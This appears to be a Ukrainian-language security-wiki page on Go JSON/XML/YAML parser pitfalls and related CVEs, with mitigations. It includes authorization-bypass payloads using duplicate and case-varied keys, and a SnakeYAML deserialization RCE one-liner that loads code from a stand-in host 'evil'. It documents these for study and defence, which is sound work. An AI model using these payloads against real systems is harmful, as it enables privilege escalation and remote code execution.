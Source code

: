 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Наступні проблеми були виявлені в Go JSON, хоча вони можуть бути присутніми і в інших мовах. Ці проблеми були опубліковані в [**цьому блозі**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

JSON, XML та YAML парсери Go мають довгий список невідповідностей та небезпечних за замовчуванням налаштувань, які можуть бути використані для **обходу аутентифікації**, **ескалації привілеїв** або **екстракції чутливих даних**.

### (Un)Marshaling Unexpected Data

Мета полягає в тому, щоб експлуатувати структури, які дозволяють зловмиснику читати/записувати чутливі поля (наприклад, `IsAdmin`, `Password`).

- Example Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Загальні вразливості

1. **Відсутній тег** (немає тегу = поле все ще обробляється за замовчуванням):
```go
type User struct {
Username string
}
```
Пейлоад:
```json
{"Username": "admin"}
```
2. **Неправильне використання `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Пейлоад:
```json
{"-": true}
```
✔️ Правильний спосіб заблокувати поле від (не)маршалізації:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser Differentials

Мета полягає в обході авторизації шляхом використання того, як різні парсери по-різному інтерпретують один і той же корисний навантаження, як у:
- CVE-2017-12635: обходження Apache CouchDB через дублікати ключів
- 2022: Zoom 0-click RCE через несумісність XML парсера
- GitLab 2025 обходження SAML через особливості XML

**1. Дублікати полів:**
Go's `encoding/json` бере **остання** поле.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Інші парсери (наприклад, Java’s Jackson) можуть взяти **перший**.

**2. Нечутливість до регістру:**
Go є нечутливим до регістру:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Навіть трюки з Unicode працюють:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Невідповідність між сервісами:**
Уявіть:
- Проксі, написаний на Go
- Служба AuthZ, написана на Python

Зловмисник надсилає:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python бачить `UserAction`, дозволяє його
- Go бачить `AdminAction`, виконує його


### Плутанина формату даних (Поліглоти)

Мета полягає в експлуатації систем, які змішують формати (JSON/XML/YAML) або не блокують помилки парсера, такі як:
- **CVE-2020-16250**: HashiCorp Vault розпарсив JSON за допомогою XML парсера після того, як STS повернув JSON замість XML.

Зловмисник контролює:
- Заголовок `Accept: application/json`
- Частковий контроль над тілом JSON

XML парсер Go розпарсив його **все одно** і довіряв ін'єкованій ідентичності.

- Сформований payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** парсер: `Action_2` (нечутливий до регістру + останній виграє)
- **YAML** парсер: `Action_1` (чутливий до регістру)
- **XML** парсер: парсить `"Action_3"` всередині рядка

---

## Помітні вразливості парсерів (2023-2025)

> Наступні публічно експлуатовані проблеми показують, що небезпечний парсинг є проблемою багатьох мов — це не лише проблема Go.

### SnakeYAML десеріалізація RCE (CVE-2022-1471)

* Впливає на: `org.yaml:snakeyaml` < **2.0** (використовується Spring-Boot, Jenkins тощо).
* Корінна причина: `new Constructor()` десеріалізує **произвольні Java класи**, дозволяючи ланцюги гаджетів, які закінчуються виконанням віддаленого коду.
* Однорядковий PoC (відкриє калькулятор на вразливому хості):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Виправлення / Пом'якшення:
1. **Оновіть до ≥2.0** (використовує `SafeLoader` за замовчуванням).
2. У старих версіях явно використовуйте `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Впливає на: `libyaml` ≤0.2.5 (C бібліотека, що використовується багатьма мовами).
* Проблема: Виклик `yaml_event_delete()` двічі призводить до подвійного звільнення, яке зловмисники можуть перетворити на DoS або, в деяких сценаріях, експлуатацію купи.
* Статус: Вгору відхилено як “неправильне використання API”, але дистрибутиви Linux випустили виправлену версію **0.2.6**, яка захищає вказівник, обнуляючи його.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Впливає на: Tencent **RapidJSON** до коміту `8269bc2` (<1.1.0-patch-22).
* Помилка: У `GenericReader::ParseNumber()` неконтрольована арифметика дозволяє зловмисникам створювати величезні числові літерали, які обертаються і пошкоджують купу — в кінцевому підсумку це дозволяє підвищити привілеї, коли отримана граф об'єктів використовується для прийняття рішень про авторизацію.

---

### 🔐 Пом'якшення (Оновлено)

| Ризик                                | Виправлення / Рекомендація                                      |
|-------------------------------------|------------------------------------------------------------|
| Невідомі поля (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Дублікати полів (JSON)             | ❌ Немає виправлення в stdlib — перевірте за допомогою [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Нечутливе співпадіння (Go)         | ❌ Немає виправлення — перевірте теги структур + попередньо канонізуйте вхідні дані   |
| XML сміттєві дані / XXE              | Використовуйте посилений парсер (`encoding/xml` + `DisallowDTD`)     |
| YAML невідомі ключі                   | `yaml.KnownFields(true)`                                   |
| **Небезпечна десеріалізація YAML**     | Використовуйте SafeConstructor / оновіть до SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 подвійне звільнення          | Оновіть до **0.2.6** або виправленої версії дистрибутива            |
| RapidJSON <виправлений коміт           | Скомпілюйте проти останнього RapidJSON (≥липень 2024)              |

## Посилання

- Baeldung – “Вирішення CVE-2022-1471 з SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}

